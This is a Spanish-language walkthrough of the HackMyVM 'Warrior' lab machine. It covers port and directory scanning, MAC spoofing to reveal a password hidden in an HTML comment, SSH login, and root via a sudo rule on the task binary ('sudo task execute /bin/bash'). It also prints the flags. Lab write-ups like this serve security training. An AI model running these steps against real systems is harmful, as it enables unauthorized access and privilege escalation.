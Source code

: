 ```yaml
---
icon: flag
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---
```


# Warrior HackMyVM (Easy - Linux)

## Escaneo de puertos

```shell
nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn <IP>
```

```shell
nmap -sCV -p<PORTS> <IP>
```

Info:

```
Starting Nmap 7.95 ( https://nmap.org ) at 2025-06-20 03:15 EDT
Nmap scan report for 192.168.5.43
Host is up (0.00062s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.4p1 Debian 5 (protocol 2.0)
| ssh-hostkey: 
|   3072 25:16:8d:63:6b:75:f0:59:55:d4:b0:2d:75:8d:e0:e6 (RSA)
|   256 1e:29:d0:f4:c5:95:e7:40:30:2b:35:f7:a3:bc:36:75 (ECDSA)
|_  256 cc:b1:52:b3:d7:ef:cd:73:4c:fc:f6:b5:51:77:ea:f3 (ED25519)
80/tcp open  http    nginx 1.18.0
|_http-title: Site doesn't have a title (text/html).
| http-robots.txt: 7 disallowed entries 
| /admin /secret.txt /uploads/id_rsa /internal.php 
|_/internal /cms /user.txt
|_http-server-header: nginx/1.18.0
MAC Address: 08:00:27:0A:1B:DE (PCS Systemtechnik/Oracle VirtualBox virtual NIC)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 7.52 seconds
```

Veremos que hay un puerto `80` en el que vamos a ver que contiene, si entramos veremos simplemente una palabra `WARRIOR` no nos dice nada, por lo que vamos a realizar un poco de `fuzzing` a ver que encontramos.

## Gobuster

```shell
gobuster dir -u http://<IP>/ -w <WORDLIST> -x html,php,txt -t 50 -k -r
```

Info:

```
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://192.168.5.43/
[+] Method:                  GET
[+] Threads:                 50
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Extensions:              html,php,txt
[+] Follow Redirect:         true
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/index.html           (Status: 200) [Size: 31]
/user.txt             (Status: 200) [Size: 5]
/admin                (Status: 403) [Size: 153]
/robots.txt           (Status: 200) [Size: 137]
/internal.php         (Status: 200) [Size: 82]
/secret.txt           (Status: 200) [Size: 17]
Progress: 234182 / 882244 (26.54%)^C
[!] Keyboard interrupt detected, terminating.
Progress: 234500 / 882244 (26.58%)
===============================================================
Finished
===============================================================
```

De todo esto el que mas nos atrae es el llamado `internal.php` ya que los demas no encontramos nada interesante si entramos, por lo que vamos acceder a dicho archivo a ver que encontramos dentro.

```
URL = http://<IP>/internal.php
```

Info:

```
Hey bro, you need to have an internal MAC as 00:00:00:00:00:a? to read your pass..
```

Veremos que necesitamos tener la `MAC` que esta comentando intentando descubrir la ultima letra para poder acceder de nuevo al mismo archivo y ver que nos muestra, por lo que vamos a probar las letras `abcdef` que son las que pueden estar maximo la `f` en la ultima opcion.

Si probamos todas la unica en la que cambia el contenido por lo que seria correcta, es con la letra `f` por lo que para establecerlo tendremos que hacer lo siguiente:

Establcemos la `MAC` desde la propia configuracion de la maquina, ya que por terminal puede dar problemas.

<figure><img src="../../.gitbook/assets/Captura de pantalla 2025-06-20 095729.png" alt=""><figcaption></figcaption></figure>

Una vez que la hayamos establecido la correcta, entramos y probamos a realizar un `curl` para ver si es la correcta a la pagina.

```shell
curl -s http://<IP>/internal.php 
```

Info:

```
<br>Good!!!!!<!-- Your password is: Zurviv0r1 -->
```

Vemos que efectivamente es la correcta, por lo que vamos a probar el nombre de usuario `bro` que vimos antes y como contraseña `Zurviv0r1` por `SSH` a ver si nos deja acceder.

### SSH

```shell
ssh bro@<IP>
```

Metemos como contraseña `Zurviv0r1` y veremos que estaremos dentro.

Info:

```
Linux warrior 5.10.0-11-amd64 #1 SMP Debian 5.10.92-1 (2022-01-18) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Tue Feb  8 04:03:20 2022 from 192.168.1.51
bro@warrior:~$ whoami
bro
```

Por lo que leeremos la `flag` del usuario.

> user.txt

```
LcHHbXGHMVhCpQHvqDen
```

## Escalate Privileges

Si hacemos `/usr/sbin/sudo -l` veremos lo siguiente:

```
Matching Defaults entries for bro on warrior:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User bro may run the following commands on warrior:
    (root) NOPASSWD: /usr/bin/task
```

Vemos que podemos ejecutar el binario `task` como el usuario `root` por lo que podremos hacer lo siguiente:

```shell
/usr/sbin/sudo task execute /bin/bash
```

Info:

```
root@warrior:/home/bro# whoami
root
```

Con esto seremos `root` por lo que leeremos la `flag` de `root`.

> root.txt

```
HPiGHMVcDNLlXbHLydMv
```
